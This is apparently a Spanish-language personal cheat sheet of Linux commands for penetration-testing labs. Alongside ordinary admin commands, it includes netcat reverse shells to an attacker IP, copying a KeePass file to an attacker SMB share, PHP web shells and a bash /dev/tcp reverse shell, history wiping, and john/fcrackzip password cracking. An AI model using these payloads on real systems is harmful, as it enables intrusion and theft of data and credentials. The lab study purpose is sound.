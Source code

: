 # Comandos Linux

- **sudo** -> Te permite ejecutar un comando o funcion en la consola.
- **su (switch user)** -> Cambiar de usuario

Modo Vi en la consola 
**Esc** - Entras al modo Vi y puedes tener una mayor agilidad al momento de borrar comandos o moverte

- **/etc/hosts** Ruta para colocar dominios e IP's
- **/etc/passwd** Ruta de las cuentas de usuario
- **/etc/shadow** Ruta de hashes de passwrod de usuario estan almacenadas ahi
- **/etc/group** Ruta de configuracion del archivo de grupos
- **/etc/shells** Podemos ver las diferentes shells que hay 
- **/etc/ssh/sshd_config** Podemos ver las configuraciones de ssh y ver si el usuario root se puede conectar 

- **/tmp** Directorio con capacidad de escritura
- **/var/tmp** Directorio con capacidad de escritura
- **/dev/shm** Directorio con capacidad de escritura

- /usr/share/Seclists/Web-Shells/FuzzDB/**nc.exe**    Netcat nos ayuda a conseguir una ReverShell

- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **!$** Referencias el ultimo argumento que hayamos puesto en la consola 
- Comando -> **echo ‘’ > ~/.zsh_history** Para borrar el historial en la zshrc
- Comando -> **echo $PATH** Miramos el path de la consola Linux

- Comando -> **sudo openvpn < FILENAME.ovpn>** – Te conectas a una vpn especifica
- Comando -> **extractPorts < FILENAME>** (Sirve para mostrarte los puertos mas relevantes y copiarlos en el cli para uso instantaneo )
- Comando -> **Settarget < IP - NAME>** -Agregamos en la esquina derecha la IP y el nombre de la maquina (Es una funcion antes configurada en la zsh)
- Comando -> **mkt** – Crea 3 directorios ya establecidos (content, exploit, namp) propios de la configuracion de parroy antes hecha
- Comando -> **mkdir -p /PATH/** Creamos una ruta con muchos directorios 

- Comando -> **arp-scan -I ens33 --localnet** Escaneamos toda la red (l=i mayuscula)
- Comando -> **macchanger -l | grep -i < NAME_VENDOR>** Podemos ver los vendors y asi determinar que es (l=ele)
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 
- Comando -> **whoami** Nos muestra el usuario que somos
- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **7z l file.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x file.gz** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

- Comando -> **cat < FileName> | wc -l** Te muestra el numero de palabras en fila que existen en ese archivo (l=ele)
- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

- Comando -> **find / -name < WORD> 2>/dev/null** Para encontrar el directorio y los permisos denegados no nos los muestre
- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers

- Comando -> **ifconfig** o **ip a** – Miras la tarjeta de red (ens33 ‘IP Local’ , Tun0 ‘IP VPN’)

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Comando -> **ping -c 1 < TARGET IP>** Mandamos un numero de ping especifico
- Comando -> **ping -c 1 < TARGET IP> -R** Verificar si tenemos conexion a una IP mandando numeros de ping especificos (R=traceroute, solo aplica en maquinas Linux, c=numero de ping) (ttl=64 Linux, ttl=128 Windows )

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
- Comando -> **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **smbserver.py < FOLDERNAME> $(pwd)** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Comando -> **searchsploit < FILENAME>** Buscamos vulnerabilidades, si encontramos con .py mucho mejor
- Comando -> **searchsploit -m < RUTA DEL ARCHIVO>** Nos traemos el archivo a nuestra maquina
- Comando -> **searchsploit -x < RUTA DEL ARCHIVO>** Miramos el contenido del archivo 

- Comando -> **chown <USER:USER> -R < DIR PATH>** Le cambiamos el propietario a un directorio (R=Forma recursiva)
- Comando -> **chmod u+x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto

- Comando -> **upx < FILE>** Podemos bajarle el peso al archivo 

- Comando -> **find / -name < NAME> 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE> --format=< HASHTYPE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256)
- Comando -> **fcrackzip -p /usr/share/wordlists/rockyou.txt -b -u FILE.zip -D** Nos crackea el hash y nos proporciona la passwd (p=init-passwd-string, b=bruteforce, D=dicctionary, u=use-unzip) 

-----
ID	Cryptographic Hash Algorithm
\$1$	MD5
\$2a$	Blowfish
\$5$	SHA-256
\$6$	SHA-512
\$sha1$	SHA1crypt
\$y$	Yescrypt
\$gy$	Gost-yescrypt
\$7$	Scrypt

----
Codigo PHP para que en la url nosotros podamos ejecutar diferentes comandos **/image.php?cmd=whoami**
Despues del primer ? va php esto en los tres de abajo
<?
	system($_REQUEST['cmd']);
?>

Comando de ReverShell en PHP
<?
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

De esta manera tambien podemos hacer una revershell mas bonita, la peticion se emite por POST (REQUEST)
<?
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?> 
---

### Instalacion de herramientas 

- **apt install keepassxc** Para instalar el keepass
- **pip2 install paramiko** Para instalar paramiko en python2
- **apt install xtightvncviewer** Instalamos el vncviewer para podernos conectar remotamente a una maquina
